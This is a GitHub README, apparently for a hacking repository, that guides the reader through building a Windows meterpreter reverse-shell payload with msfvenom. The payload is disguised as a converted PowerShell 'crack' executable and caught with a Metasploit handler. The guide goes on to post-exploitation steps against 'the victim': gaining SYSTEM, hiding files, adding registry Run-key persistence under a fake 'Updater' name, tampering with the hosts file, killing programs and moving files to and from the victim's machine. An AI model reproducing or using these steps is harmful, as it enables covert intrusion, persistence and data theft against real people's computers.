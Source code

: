 # Invisible Access 👁‍🗨
This repository is part of the 3HK initiative. It provides an experimental framework for generating custom payloads and demonstrating basic backdoor mechanisms.
The goal is to illustrate core concepts of access persistence, payload delivery, and post-exploitation techniques.
Alongside the scripts, you’ll find explanatory notes and sample files that serve as learning references.
```
Use it wisely. Or don’t.
```
👹 3HK

## Static Ip
### Basic step

1.    Install VMware Workstation or any other virtual Machine 
2.    download kali-linux-2025-W22-installer-amd64 *(ISO)*
3.    Create your own Machine

### VMware Settings

   1. Player -> Manage -> Virtual Machine Settings
   2. Network Adapter  -> Bridged : Connected directly to the physical Network
   3. select *_Replicate physical network connection state_*

### Point Acces Mobile (متاصل من هاتف)
```
 sudo nano /etc/network/interfaces
```
*  Write :
```
# The loopback network interface
auto lo
iface lo inet loopback
```
*  Now we go to *Resolv.conf*
```
sudo nano /etc/resolv.conf
```
*  Add your nameserver, exemple if ur ip is 192.168.42.50 put 
```
nameserver 192.168.42.1
```
*  ⚠️**Restart your pc**

### WIFI
```
 sudo nano /etc/network/interfaces
```
	Clear the previous two lines of *Point Acces Mobile (متاصل من هاتف)*
	add these lines and dont forget to change *XXX* to a number between 1 to 255.
```
auto eth0
iface eth0 inet static
    address 192.168.1.XXX
    netmask 255.255.255.0
    gateway 192.168.1.1
```
*  Now we go to **Resolv.conf**
```
sudo nano /etc/resolv.conf
```
*  Add these domains 
```
nameserver 8.8.8.8
nameserver 8.8.4.4
nameserver 1.1.1.1
```
*  ⚠️**Restart your pc**

## Download Tools

**Metasploit**
```
sudo apt install metasploit-framework
```
**ps2exe**
*  run PowerShell as an administrator
```
Find-Module -Name PowerShellGet | Install-Module 
Set-ExecutionPolicy RemoteSigned -Scope CurrentUser
Install-Module -Name ps2exe
```
## Command line

*  Here u gonne find all command u need, we started with Created Payload
```
Cd Desktop
```
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST={YOUR IP} LPORT={YOUR PORT 8080 or 4444 ...} -f exe -o {Name of your Payload}.exe
```
   **Compression of Payload**
```
tar -czvf {Compressed file name}.tar.gz {Name of your Payload}.exe
```
   **Create a Malware backdoor**

   *  Download my file _Crack.ps1_
  *  Edit the file to suit your Payload.

   **Convert file powershell (.Ps1) to Exe**
   1.    Run Powershell.
   2.    Go to the file location.
   3.    Command line (Change name *crack* to your)
```
Invoke-ps2exe .\crack.ps1 .\crack.exe -noConsole
```

### Metasploit
  *  Now with the moment awaited to hack the victim 🗡
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST {YOUR IP}
set LPORT {YOUR PORT 8080 or 4444 ...}
run
```
This is the quiet before the breach *_msfconsole_* is loaded. *Payload* deployed,
Metasploit doesn’t knock — it walks in, one click, one exploit... and they’re mine 🗡
After they made the mistake :)
``` 
Sessions -i
```
   **Chose the sessions of your victime example 1**
```
sessions 1
getuid   | يعرض المستخدم الحالي
getsystem  | أخد صلاحية System
```
   **Hide files, change your file link if you change it**
```
execute -f cmd.exe -a "/c attrib +h +s C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\{Name of your Payload}.exe"

execute -f cmd.exe -a "/c attrib +h +s C:\\Users\\Administrator\\AppData\\Roaming\\Microsoft\\Windows\\{Name of your Backdoor crack}.exe"
```
   **Create the file in the registry**
```
reg setval -k "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" -v "Updater" -d "C:\\Users\\Administrator\\AppData\\Roaming\\{Name of your Payload}.exe"
```
   **Block Website**
```
execute -f cmd.exe -a "/c echo 127.0.0.1 {PUT LINK OF WEBSITE U WANT TO BLOCK}.com >> C:\\Windows\\System32\\drivers\\etc\\hosts"
```
   **Kill Programe (Stop Running)**
```
execute -f cmd.exe -a "/c taskkill /{PROGRAM NAME}.exe /F"
```
   **Upload the file to the victim's pc**
```
upload /home/xxxx/Desktop/YYY
```
  *  xxxx : name of ur folder (link)
  *  YYY  : name of file 

 **Download file from victim's pc**
*  access the file do you want to take from it
```
Download FILE_NAME
```
 
## Tutorial Video 
[![3HK- Rosetta Stone](https://user-images.githubusercontent.com/47686437/168548113-b3cd4206-3281-445b-b7c6-bc0a3251293d.png)](https://www.youtube.com/)







